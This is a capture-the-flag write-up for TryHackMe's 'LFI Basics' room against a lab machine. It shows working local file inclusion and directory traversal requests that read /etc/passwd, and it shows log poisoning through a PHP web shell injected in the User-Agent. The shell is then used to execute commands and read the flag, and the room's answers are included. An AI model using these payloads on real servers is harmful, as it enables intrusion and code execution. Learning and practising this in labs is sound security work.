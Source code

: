 ```yaml
---
layout: post
title: Write-Up [THM] LFI Basics
categories: [Write-Ups]
tags: [TryHackMe, LFI]
featured-image:  thm/lfi/theme.png
featured-image-alt: LFI Basics
---
```


It's a write-up about the room : [Try Hack Me - Room : LFI Basics](https://tryhackme.com/room/lfibasics)# Task 1 - local File Inclusion

* What's the message you get when you include the home.html?

We went on `http://ip_machine/lfi/lfi.php/?page=home.html` and the message was **You included home.html**.

* What user that it's not by default there is present?

We read the passwd file : `http://ip_machine/lfi/lfi.php/?page=/etc/passwd` and found the user **lfi**.

## Task 2 - Local File Inclusion using Directory Traversal

* Add the "?page=" parameter, and try to include the home page again. Does it work (Yes/No)? **No** 

* What are the credit card numbers ? 

`http://ip_machine/lfi2/lfi.php/?page=../creditcard` and found **1111-2222-3333-4444**.

## Task 3 - Reaching RCE using LFI and log poisoning

`http://ip_machine/lfi/lfi.php/?page=/var/log/apache2/access.log`

* Can you read the log (Yes/No)? **Yes**

* Give it a try and run uname -r. What's the output of the command?

`http://ip_machine/lfi/lfi.php?page=/var/log/apache2/access.log&lfi= uname -r`

With BurpSuite, we changed the User-Agent :  
`Mozilla/5.0 <?php system($_GET['lfi']); ?> Firefox/79.0`.   

And after that we send with the repeater : `http://<IP>/lfi/lfi.php?page=/var/log/apache2/access.log&lfi=uname%20-r`.  
The answer is : `4.15.0-72-generic`

* With this knowledge read the flag from the lfi user home directory.

To begin we searched what file can contained the flag with the command ls in the lfi user home directory : `GET /lfi/lfi.php?page=/var/log/apache2/access.log&lfi=ls%20../../../../../../home/lfi/`

We found :
```
Documents
Downloads
Music
Pictures
Public
Templates
Videos
flag.txt
```

Therefore we read the content of the file flag.txt : 
`GET /lfi/lfi.php?page=/var/log/apache2/access.log&lfi=cat%20../../../../../../home/lfi/flag.txt`.  

We found the last flag : **THM{a352a5c2acfd22251c3a94105b718fea}**.